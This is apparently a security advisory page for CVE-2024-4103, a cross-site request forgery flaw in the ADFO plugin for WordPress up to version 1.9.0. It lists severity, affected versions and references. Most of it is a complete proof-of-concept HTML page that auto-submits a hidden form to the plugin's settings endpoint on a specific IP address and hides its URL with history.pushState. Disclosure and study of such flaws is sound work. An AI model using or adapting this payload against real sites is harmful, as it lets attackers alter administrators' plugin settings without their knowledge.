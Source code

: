 ```yaml
---
layout: page
title: CVE-2024-4103
subtitle: ADFO – Custom data in admin dashboard <= 1.9.0 - Cross-Site Request Forgery
---
```

## Description
The ADFO – Custom data in admin dashboard plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.9.0. This is due to missing or incorrect nonce validation on several functions hooked via the controller() function. This makes it possible for unauthenticated attackers to edit the plugin's settings via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS Vector CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.9.0

## PoC :
```
<html>
  <!-- Made by eneriiiii<3 / twitter.com/aaillesim -->
  <body>
    <form action="http://103.189.234.57/wp-admin/admin.php?page=admin_form&section=list-setting&dbp_id=70" method="POST">
      <input type="hidden" name="action" value="list&#45;setting&#45;save" />
      <input type="hidden" name="frontend&#95;view&#91;if&#95;textarea&#93;" value="" />
      <input type="hidden" name="frontend&#95;view&#91;type&#93;" value="TABLE&#95;BASE" />
      <input type="hidden" name="frontend&#95;view&#91;table&#95;style&#95;color&#93;" value="light" />
      <input type="hidden" name="frontend&#95;view&#91;table&#95;pagination&#95;position&#93;" value="down" />
      <input type="hidden" name="frontend&#95;view&#91;table&#95;pagination&#95;style&#93;" value="numeric" />
      <input type="hidden" name="frontend&#95;view&#91;table&#95;sort&#93;" value="icon1" />
      <input type="hidden" name="frontend&#95;view&#91;table&#95;search&#93;" value="simple" />
      <input type="hidden" name="frontend&#95;view&#91;table&#95;size&#93;" value="" />
      <input type="hidden" name="frontend&#95;view&#91;table&#95;update&#93;" value="ajax" />
      <input type="hidden" name="frontend&#95;view&#91;table&#95;export&#93;" value="" />
      <input type="hidden" name="editor&#95;table&#95;update" value="ajax" />
      <input type="hidden" name="editor&#95;table&#95;pagination&#95;style" value="numeric" />
      <input type="hidden" name="frontend&#95;view&#91;content&#95;header&#93;" value="" />
      <input type="hidden" name="frontend&#95;view&#91;content&#93;" value="" />
      <input type="hidden" name="frontend&#95;view&#91;content&#95;footer&#93;" value="" />
      <input type="hidden" name="frontend&#95;view&#91;content&#95;else&#93;" value="" />
      <input type="hidden" name="frontend&#95;view&#91;no&#95;result&#95;custom&#95;text&#93;" value="" />
      <input type="hidden" name="frontend&#95;view&#91;detail&#95;type&#93;" value="TABLE" />
      <input type="hidden" name="frontend&#95;view&#91;popup&#95;type&#93;" value="" />
      <input type="hidden" name="frontend&#95;view&#91;detail&#95;template&#93;" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/admin-form/adfo-custom-data-in-admin-dashboard-190-cross-site-request-forgery
- https://www.cve.org/CVERecord?id=CVE-2024-4103





